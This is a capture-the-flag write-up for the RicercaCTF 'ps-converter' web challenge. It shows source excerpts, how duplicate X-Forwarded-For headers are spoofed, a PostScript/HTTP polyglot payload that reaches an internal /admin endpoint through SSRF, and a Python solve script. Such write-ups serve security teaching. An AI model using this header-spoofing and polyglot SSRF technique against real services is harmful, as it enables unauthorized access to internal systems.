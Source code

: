 # web/ps-converter

>**ps converter** (393 pts / 4 solves)

>Author: hugeh0ge

>Description: Try my Postscript converter!

The challenge is a webapp that lets us upload a [PostScript](https://en.wikipedia.org/wiki/PostScript) program, converts it to PDF and shows the result.

![](img/1.png)

Looking at the source code, we find out that the app is divided into 4 services: backend, frontend, flag and proxy.

In the frontend, the `/converter` endpoint is the interface where we can upload the PostScript file to be converted, which gets proxied to the root `/` endpoint of the backend.

In the backend, there's also an `/admin` endpoint that performs a request to the `/showmeflag` endpoint of the flag service and shows the output (flag), as long as we set a `Client-Ip` request header with value `127.0.0.1` or the backend IP, which is `123.45.67.102`.  

```go
client_ip_str := req.Header.Get("Client-Ip")
client_ip, err := net.ResolveIPAddr("ip", client_ip_str)
if check_err(err) { return }
my_ip, err := net.ResolveIPAddr("ip", "backend")
if check_err(err) { return }

if client_ip_str != "127.0.0.1" && !client_ip.IP.Equal(my_ip.IP) {
fmt.Fprintln(w, "You are not allowed to see the flag!")
return
}

res, err := http.PostForm("http://flag:3000/showmeflag", url.Values{}) 
if check_err(err) { return }
defer res.Body.Close()
```

However, the proxy doesn't allow direct external access the `/admin` endpoint of the backend. We need to find a way to perform SSRF as an internal request and read the output.

When the PostScript file we upload reaches the backend, the raw content is sent over TCP to the last comma-separated value of the `X-Forwarded-For` header, which would normally be the frontend IP (`123.45.67.100`) where the nginx server is. The frontend then converts the PostScript file to PDF.

```go
x_forwarded_for := req.Header.Get("X-Forwarded-For")
ips := strings.Split(x_forwarded_for, ", ")
ps2pdf := ips[len(ips)-1]
tcp_addr, err := net.ResolveTCPAddr("tcp", ps2pdf + ":3000")
conn, err := net.DialTCP("tcp", nil, tcp_addr)
if check_err(err) { return }

_, err = conn.Write(script)
if check_err(err) { return }
conn.CloseWrite()

var resp []byte
resp, err = io.ReadAll(conn)
if check_err(err) { return }
```

```bash
sudo -u user socat TCP-L:3000,reuseaddr,fork EXEC:"/run_ps2pdf.sh"
```

To perform SSRF, we need to spoof the `X-Forwarded-For` header so that the value of `ps2pdf` in the above code becomes an arbitrary host of our choosing instead of the frontend.

Using Burp Suite, we can try appending a fake `X-Forwarded-For` header to the POST `/converter` request.

```
X-Forwarded-For: test
```

However, we'll realize that it doesn't work because the frontend IP `123.45.67.100` gets appended by the proxy when it reaches the backend.

```
X-Forwarded-For: backend, 123.45.67.100
```

But if we send duplicate `X-Forwarded-For` headers, we realize that only the first one is taken, without the `123.45.67.100` being appended! By sending the following headers, we can make the backend perform a TCP-based SSRF to any host we want, for example the backend itself.

```
X-Forwarded-For: backend
X-Forwarded-For: dummy
```

Since HTTP is based on TCP, we can induce an SSRF to the `/admin` endpoint and read the flag if we manage to upload a PostScript file like this:

```
GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, the backend checks if the file we upload is actually a valid PostScript file before sending it, so we need to find a way to modify our payload so that it becomes both a valid HTTP request and a valid PostScript file.

First, the backend checks if our file is a PostScript file with the Linux `file` command.

```go
// First, check if the posted file is actually a Postscript file.
// 1. check `file` output
cmd := exec.Command("file", "-")
cmd.Stdin = bytes.NewReader(script)
var stdout1 bytes.Buffer
var stderr1 bytes.Buffer
cmd.Stdout = &stdout1
cmd.Stderr = &stderr1

err = cmd.Run()
if check_err(err) { return }

err_str1 := stderr1.String()
if err_str1 != "" {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusInternalServerError)
    fmt.Fprintf(w, "file returned error: [redacted]\n")
    return
}

out_str1 := stdout1.String()
if !strings.Contains(out_str1, "PostScript document text") {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusBadRequest)
    fmt.Fprintf(w, "Get out, poor hacker!\n")
    return
}
```

On the [Wikipedia page](https://en.wikipedia.org/wiki/PostScript), we find out that the magic number of the PostScript file format is `%!`, which means our file needs to begin with `%!` to bypass the first check.

```
%!GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, would the Go HTTP server (which the backend uses) still accept this as a valid GET request? Suprisingly, yes! Even if we append `%!`, Go still considers it to be the same request. However, if we try to perform SSRF to the `/showmeflag` endpoint of the flag server to read the flag directly, we will get a Bad Request error, because the flag server uses the Python HTTP server which doesn't consider it to be a valid request unlike Go.

Now, we need to bypass the second check, which verifies if the `ps2ps` tool can process the PostScript file without errors, which means that our payload must have valid PostScript syntax. With the payload above, we will get an error because the lines with our request headers are not valid PostScript.

```go
// 2. check if ps2ps can actually process the file
cmd = exec.Command("ps2ps", "/dev/stdin", "/dev/stdout")
cmd.Stdin = bytes.NewReader(script)
var stdout2 bytes.Buffer
var stderr2 bytes.Buffer
cmd.Stdout = &stdout2
cmd.Stderr = &stderr2

err = cmd.Run()
if check_err(err) { return }

err_str2 := stderr2.String()
if err_str2 != "" {
w.Header().Set("Content-Type", "text/plain")
w.WriteHeader(http.StatusInternalServerError)
fmt.Fprintf(w, "ps2ps returned error: [redacted]\n")
return
}
```

In PostScript, a comment begins with `%` so I first tried to comment out the lines with `Host` and `Client-Ip`. However, it didn't work because the Go HTTP server couldn't parse the headers correctly with `%` appended. Moreover, multi-line comments do not exist in PostScript, so using comments seemed like a dead-end.

```
%!GET /admin HTTP/1.1
%Host: backend
%Client-Ip: 127.0.0.1
```

After some research looking at the [commands available in PostScript](https://personal.math.ubc.ca/~cass/courses/ps.html), I found out that the `quit` command can terminate interpretation of the program, which means that if we put a `quit` command before out request headers, `ps2ps` will not return any error because it will terminate before trying to interpret our headers!

```
%!GET /admin HTTP/1.1
quit
Host: backend
Client-Ip: 127.0.0.1
```

However, it is still not sufficient because now the Go HTTP server will try to parse the `quit` as a request header and throw an error. Here is how I fixed this:

```
%!GET /admin HTTP/1.1
quit%: dummy
Host: backend
Client-Ip: 127.0.0.1


```

The Go server will interpret the second line as a request header with name `quit%` and value `dummy`, while the PostScript interpreter will treat everything after `%` as a comment. Notice that we add some CRLF at the end to conform to the HTTP protocol. This becomes our final payload (`solve.ps`).

Now, we only need to post this file to the `/converter` endpoint, while spoofing the `X-Forwarded-For` header. I use the `httpx` Python package in my solve script (`solve.py`) because `requests` doesn't support duplicate headers. You could also simply add the headers manually with Burp Suite.

```python
import httpx

headers = [
    ('X-Forwarded-For', 'backend'),
    ('X-Forwarded-For', 'dummy')
]
files = {
    'file': open('solve.ps', 'rb')
}
r = httpx.post('http://ps-converter.2023.ricercactf.com:51514/converter', headers=headers, files=files)

print(r.text)
```

After executing the script, we get the response containing the flag!

```
RicSec{0mg_It_d035nt_l00k_anyth1n9_f6b0c427d3e2}
```

